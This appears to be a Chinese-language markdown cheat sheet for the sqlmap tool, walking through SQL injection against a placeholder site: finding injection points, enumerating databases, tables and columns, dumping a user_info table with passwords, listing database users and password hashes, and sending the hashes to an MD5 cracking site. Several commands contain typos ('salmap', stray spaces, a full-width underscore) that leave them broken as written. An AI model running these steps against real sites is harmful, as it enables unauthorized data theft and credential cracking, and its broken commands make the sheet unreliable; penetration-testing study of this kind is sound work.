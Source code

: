## 注入点判断
1. 判断是否存在注入点

```
sqlmap -u http://xxx
```


当参数有多个时，需要加双引号

```
sqlmap -u "http://xxx/?id=1&uid=2"
```


2. 判断http报文中是否存在注入点
将http报文写入一个文本，然后使用

```
salmap -r txt文本
```


## 存在注入点后，进行下一步操作
1. 查询当前用户下的所有数据库

```
sqlmap -u http://xxx/ --dbs
```


2. 确认数据库后，进行表的查询.  
比如上面一条语句确认有以下几个数据库
<img src="../pictures/j4ddnt2dp1.png" width="600" />
那么现在查询dkeye数据库中有哪些表

```
sqlmap -u http://xxx/ -D dkeye --tables
```


3. 确认表后，获取字段名
比如上面查询表名后，确定查询其中的user_info表
<img src="../pictures/j79q4i3bahf.png" width="200" />
使用---columns获取该数据表中的字段名。

```
sqlmap -u http://xxx/ -D dkeye -T user_info -- columns
```


4. 确定字段后，使用命令获取某个字段的内容

```
sqlmap.py -u http://xxx/ - D dkeye -T use＿info -C user,name,password --dump
```


## 获取与数据库用户相关的信息
1. 获取到数据库中的所有用户

```
salmap -u "http://xxx/" --users
```


使用该条语句的前提是，当前用户有权限读取包含所有用户的表的权限时。
2. 获取数据库中用户的密码

```
salmap -u "http://xxx/" --password
``` 
获取到的密码是经过md5加密的，可以在[md5解密网站](https://www.cmd5.com/)
3. 获取当前网脑数据库的名称
```


salmap -u "http://xxx/" --current-db

``` 
4. 获取当前网览数据库的用户名称
```


salmap -u "http://xxx/" --current-user

## 其他参数
1. --level 5：探测等级  

等级|使用
--|--
level 2| HTTP cookie 会加入
level 3| HTTP User-Agent/Referer会加入
level 5| 自动破解出cookie 、 XFF等头部注入。

2. --is-dba 当前用户是否为dba
3. --roles ：列出数据库管理员角色
4. --referer: HTTP Referer 头部注入



```{.python .input}

```
